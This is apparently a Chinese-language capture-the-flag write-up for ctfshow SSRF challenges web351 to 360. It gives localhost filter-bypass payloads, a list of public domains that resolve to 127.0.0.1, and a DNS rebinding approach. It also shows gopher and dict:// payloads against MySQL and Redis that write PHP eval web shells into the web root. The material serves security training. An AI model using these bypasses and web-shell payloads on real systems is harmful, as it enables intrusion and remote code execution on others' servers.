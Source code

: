 ## web351

存在一个flag.php页面，访问会返回不是本地用户的消息，
那我们直接以本地用户去探测内网下的flag.php就可以了

代码如下：

![img](https://img2022.cnblogs.com/blog/2289942/202201/2289942-20220123222643251-2090227259.png)

## web352:

增加了http/https的限制
[![img](https://img2022.cnblogs.com/blog/2289942/202201/2289942-20220123224924201-944249022.png)](https://img2022.cnblogs.com/blog/2289942/202201/2289942-20220123224924201-944249022.png)
但是注意！这里很多人以为不能有localhost/127.0.0.1,错
他这里的代码写错了

```
if(!preg_match('/localhost|127.0.0/')
```

#### 由于没有规定匹配的变量，导致这句话必返回为真

所以上一题的答案依旧可以用
直接拿到flag

```
url=http://localhost/flag.php
```

## web353:

这道题和上一题比较就增加了匹配的变量，不能有localhost/127.0.
绕过方法有很多



```
进制绕过 		url=http://0x7F000001/flag.php
0.0.0.0绕过		url=http://0.0.0.0/flag.php
特殊的地址0，		url=http://0/flag.php
还有			url=http://127.1/flag.php
还有			url=http://127.0000000000000.001/flag.php
```

[![img](https://img2022.cnblogs.com/blog/2289942/202201/2289942-20220123225824090-953524738.png)](https://img2022.cnblogs.com/blog/2289942/202201/2289942-20220123225824090-953524738.png)

## web354:

#### 增加了0和1的过滤

这就有些难搞了。。
难道要我买一个域名解析到127.0.0.1 ？
不可能= =坚决白嫖
于是我决定百度找几个
[![img](https://img2022.cnblogs.com/blog/2289942/202201/2289942-20220123233728819-1024669034.png)](https://img2022.cnblogs.com/blog/2289942/202201/2289942-20220123233728819-1024669034.png)
好嘞，问题解决
直接拿flag



```
url=http://safe.taobao.com//flag.php
```

[![img](https://img2022.cnblogs.com/blog/2289942/202201/2289942-20220123233840599-2122591319.png)](https://img2022.cnblogs.com/blog/2289942/202201/2289942-20220123233840599-2122591319.png)

### 域名就放到这里啦



```
http://safe.taobao.com/
http://114.taobao.com/
http://wifi.aliyun.com/
http://imis.qq.com/
http://localhost.sec.qq.com/
http://ecd.tencent.com/
```

# web355

### 增加了域名长度小于5的限制



```
if ((strlen($host) <= 5))
```

简单，旧方法绕过



```
特殊的地址0，		url=http://0/flag.php
还有			url=http://127.1/flag.php
```

[![img](https://img2022.cnblogs.com/blog/2289942/202201/2289942-20220124000400839-1217720763.png)](https://img2022.cnblogs.com/blog/2289942/202201/2289942-20220124000400839-1217720763.png)

# web356

将上一题的条件域名长度小于5改成了小于3



```
特殊的地址0，		url=http://0/flag.php
```

再次旧方法绕过
[![img](https://img2022.cnblogs.com/blog/2289942/202201/2289942-20220124000131245-591565073.png)](https://img2022.cnblogs.com/blog/2289942/202201/2289942-20220124000131245-591565073.png)

#### 值得注意的地方是

#### `0`在linux系统中会解析成`127.0.0.1`，而在windows中会解析成`0.0.0.0`

## 357(DNS重绑定)

<?php 
error_reporting(0); 
highlight_file(__FILE__); 
$url=$_POST['url']; 
$x=parse_url($url); 
if($x['scheme']==='http'||$x['scheme']==='https'){ 
$ip = gethostbyname($x['host']); 
echo '</br>'.$ip.'</br>'; 
if(!filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) { 
    die('ip!'); 
} 

echo file_get_contents($_POST['url']); 
} 
else{ 
    die('scheme'); 
} 
?>
函数解析：

gethostbyname() 返回主机名 hostname 对应的 IPv4 互联网地址。

FILTER_FLAG_IPV4 - 要求值是合法的 IPv4 IP（比如 255.255.255.255）

FILTER_FLAG_IPV6 - 要求值是合法的 IPv6 IP

（比如 2001:0db8:85a3:08d3:1319:8a2e:0370:7334）

FILTER_FLAG_NO_PRIV_RANGE - 要求值是 RFC 指定的私域 IP 

（比如 192.168.0.1）

FILTER_FLAG_NO_RES_RANGE - 要求值不在保留的 IP 范围内。

该标志接受 IPV4 和 IPV6 值。

不能有内网ip，所以填一个公网ip:

DNS重绑定


File_get_contents 得到 flag.php

![img](https://img-blog.csdnimg.cn/2021041523534036.png#pic_center)

## 358(URL BYPASS)

<?php 
error_reporting(0); 
highlight_file(__FILE__); 
$url=$_POST['url']; 
$x=parse_url($url); 
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){ 
    echo file_get_contents($url); 
}
正则表达式的意思是以http://ctf.开头，以show结尾。

payload:

http://ctf.@127.0.0.1/flag.php?show

## 359

打开是登录框，先随便输点什么，然后抓包
发现有个returl参数，并且可以随意更改url，这应该就是我们的利用点了

![img](https://img-blog.csdnimg.cn/20210206162154858.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3hpYW9sb25nMjIzMzM=,size_16,color_FFFFFF,t_70)

然后就是gopher协议打mysql,这里用到这个工具gopherus

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210206163407411.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3hpYW9sb25nMjIzMzM=,size_16,color_FFFFFF,t_70)

python gopherus.py --exploit mysql
生成一句话木马

select "<?php @eval($_POST['cmd']);?>" into outfile '/var/www/html/2.php';

记得把_后面那一大段内容再url编码一次，发送

访问2.php,cat一下

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210206164132720.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3hpYW9sb25nMjIzMzM=,size_16,color_FFFFFF,t_70)

## web360:

精神状态良好：

## web360——Gopher协议打redis

端口为6379同样操作就可以了😊，但是我把环境干废了i🙃

![image-20210908164829918](https://img-blog.csdnimg.cn/img_convert/b3ff5d0227f3bcfd03ab8e00d4b6302e.png)

### 这个没用，我服了

一个好方法：dict（不怎么了解）

先看能不能用：

url=dict://127.0.0.1:6379/     (如果是ok就可以用)

url=dict://127.0.0.1:6379/info  (要不要公钥)

url=dict://127.0.0.1:6379/config:set:dir:/var/www/htnl   （靶机的环境地址） 

url=dict://127.0.0.1:6379/set:shell:"\x3c\x3f\x70\x68\x70\x20\x65\x76\x61\x6c\x28\x24\x5f\x50\x4f\x53\x54\x5b\x62\x69\x74\x5d\x29\x3b\x3f\x3e"

(写了一个shell，一句话木马：密码是bit)

url=dict://127.0.0.1:6379/config:set:dbfilename:1.php

url=dict://127.0.0.1:6379/save               (保存文件)

访问文件直接连接

